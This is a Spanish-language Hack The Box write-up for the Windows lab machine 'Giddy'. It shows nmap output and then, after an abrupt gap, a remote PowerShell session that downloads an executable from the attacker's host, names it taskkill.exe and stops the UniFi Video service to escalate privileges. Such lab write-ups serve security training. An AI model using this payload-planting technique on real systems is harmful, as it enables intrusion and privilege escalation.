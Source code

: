```yaml
---
title: "HTB write-up: Giddy"
date: 2019-02-16T08:47:00-06:00
tags: ["hackthebox","htb","boot2root","pentesting","windows"]
categories: ["htb","pentesting"]
draft: false

---
```

AAAA


# Machine info

La información que tenemos de la máquina es:

Name  | Maker     | OS      | IP Address
---   | ---       | ---     | ---
Giddy | lkys37en  | Windows | 10.10.10.104

Su tarjeta de presentación es:

![Card Info](/img/htb-giddy/cardinfo.png)

# Port Scanning

Comenzamos por realizar un escaneo de puertos usando nuestra herramienta nmap, pero luego vemos que tardaría bastante porque empezó a tener muchos drops:

```
root@laptop:~# nmap -sS -p- -n --open -v 10.10.10.104
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-15 08:55 CST
Initiating Ping Scan at 08:55
Scanning 10.10.10.104 [4 ports]
Completed Ping Scan at 08:55, 0.44s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 08:55
Scanning 10.10.10.104 [65535 ports]
Discovered open port 3389/tcp on 10.10.10.104
Discovered open port 80/tcp on 10.10.10.104
Discovered open port 443/tcp on 10.10.10.104
SYN Stealth Scan Timing: About 2.51% done; ETC: 09:15 (0:20:05 remaining)
SYN Stealth Scan Timing: About 3.89% done; ETC: 09:21 (0:25:08 remaining)
SYN Stealth Scan Timing: About 6.19% done; ETC: 09:19 (0:22:59 remaining)
SYN Stealth Scan Timing: About 8.71% done; ETC: 09:21 (0:24:17 remaining)
Increasing send delay for 10.10.10.104 from 0 to 5 due to 40 out of 133 dropped probes since last increase.
Increasing send delay for 10.10.10.104 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
SYN Stealth Scan Timing: About 8.90% done; ETC: 09:26 (0:28:50 remaining)
Increasing send delay for 10.10.10.104 from 10 to 20 due to 11 out of 23 dropped probes since last increase.
SYN Stealth Scan Timing: About 9.28% done; ETC: 09:30 (0:32:25 remaining)
Increasing send delay for 10.10.10.104 from 20 to 40 due to 11 out of 22 dropped probes since last increase.
```


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"
[10.10.10.104]: PS C:\programdata\unifi-video>
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService